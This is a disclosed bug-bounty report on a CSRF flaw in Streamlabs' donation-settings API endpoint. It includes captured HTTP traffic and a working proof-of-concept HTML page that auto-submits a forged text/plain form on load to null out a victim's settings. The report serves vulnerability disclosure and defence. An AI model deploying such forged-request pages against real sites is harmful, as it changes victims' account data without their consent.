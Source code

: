 # CSRF in changing users donation_settings [https://streamlabs.com/api/v6/viewer-portal/viewer-settings/donation_settings]

## Report Details
- **Report ID**: 1049360
- **URL**: https://hackerone.com/reports/1049360
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-12-03T03:07:26.513Z
- **Disclosed**: 2020-12-26T13:23:44.243Z

## Reporter
- **Username**: sudi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: logitech

## Vulnerability Information
Hey there,
I have found that the `api/v6/viewer-portal/viewer-settings/donation_settings` endpoint is vulnerable to csrf attack, which allows an attacker to update victim's  donation_settings like *username*,*amount*.

---------------------------------------------------------------------------------------------------------------------------------------------------

Here is the requets made  when the user changes his donation settings, there were X-CSRF and X-XSRF header present in the request but the application wasn't validating them. So I just removed those headers and 200Ok response was recieved without any error

```
POST /api/v6/viewer-portal/viewer-settings/donation_settings HTTP/1.1
Host: streamlabs.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 143
Connection: close
Cookie: Redacted
Upgrade-Insecure-Requests: 1

{"username":{"value":"shirley","autofill":false},"amount":{"value":null,"currency":"USD","autofill":true},"clips":{"isVisibleToPublic":true}}
```

```
HTTP/1.1 200 OK
Date: Thu, 03 Dec 2020 02:38:51 GMT
Content-Type: application/json


true
```

By visiting this endpoint https://streamlabs.com/api/v6/viewer-portal/viewer-settings/donation_settings you could see your donation settings.
```json
{"settings":{"clips":{"isVisibleToPublic":true},"amount":{"value":null,"autofill":true,"currency":"USD"},"username":{"value":"shirley","autofill":false}}}
```
---------------------------------------------------------------------------------------------------------------------------------------------------

**Steps to reproduce:**

Copy paste this html code and save it in a .html extension file

```html
<html>
<title>JSON CSRF POC</title>
<center>
<h1> JSON CSRF POC </h1>
<body onload="document.createElement('form').submit.call(document.getElementById('myForm'))">
<form id="myForm" action=https://streamlabs.com/api/v6/viewer-portal/viewer-settings/donation_settings method=post enctype="text/plain" >
<input name='{"username":{"value":"shirley","autofill":false},"amount":{"value":null,"currency":"USD","autofill":true},"clips":{"isVisibleToPublic":true,"ignore_me":"' value='test"}}'type='hidden'>
</form>
</center>
</html>
```

Then just load this file in your browser and the changes will be made.

If you now visit this endpoint: https://streamlabs.com/api/v6/viewer-portal/viewer-settings/donation_settings. The response will be:

```
HTTP/1.1 200 OK
Date: Thu, 03 Dec 2020 02:48:11 GMT
Content-Type: application/json
Content-Length: 15
Connection: close


{"settings":[]}
```

---------------------------------------------------------------------------------------------------------------------------------------------------

**POC:**

{F1102063}

---------------------------------------------------------------------------------------------------------------------------------------------------

## Impact

An attacker can set the donation settings of a victim to null, here I couldn't possibly change the victim's donation setting values for like username  to something else because the Content-Type of the request must be application/json, as it's not possib;le to do set this content-type with html forms I used text/plain which doesn't updates the field values but I can still set them to null 


Thankyou
Regards
Sudhanshu

## Attachments
- nvD6oqXkMq.mp4
